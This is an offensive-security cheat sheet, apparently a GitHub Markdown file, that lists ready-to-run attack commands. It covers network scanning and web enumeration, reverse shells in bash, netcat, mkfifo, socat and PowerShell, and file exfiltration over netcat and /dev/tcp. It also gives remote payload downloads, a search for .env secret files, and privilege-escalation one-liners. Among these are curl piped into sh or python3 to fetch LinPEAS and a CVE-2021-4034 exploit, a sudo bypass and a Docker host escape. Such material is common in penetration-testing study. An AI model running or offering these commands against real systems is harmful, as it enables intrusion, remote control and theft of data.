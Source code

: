 # CHEATSHEET


## ENUMERATION

### NETWORK

 #### HOST DISCOVERY
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### TCP OPEN PORTS
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### INFO & VERSION
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### HTTP ENUMERATION

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



### REVERSE SHELLS

 #### BASH
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### NETCAT
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### MKFIFO
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### SOCAT
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### POWERSHELL

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

 #### INTERACTIVE TTY

```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



### SHARE AND DOWNLOAD


 #### HTTP SERVER
 
```bash
# Python3
python3 -m http.server 80

# Python2
python -m SimpleHTTPServer 80

# PHP
php -S 0.0.0.0:80
```

 #### SMB 
 
```bash
smbserver.py shareName $(pwd) -smb2support
```

 #### FILE TRANSFER ( NETCAT - BASH ) 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 #### DOWNLOAD 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



### SYSTEM ENUMERATION


 #### Enviroment Variables
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### Find SUID on GUID files
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### Check capabilities
 
```bash
getcap -r / 2>/dev/null
```

 #### Open local ports
 
```bash
ss -nltp
```

 # Cron Jobs
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### Monitoring processes
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### Scripts with write permissions
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 # LinPEAS
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

 #### Sudo

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 #### Polkit - (CVE-2021-4034)

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 #### Docker
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```


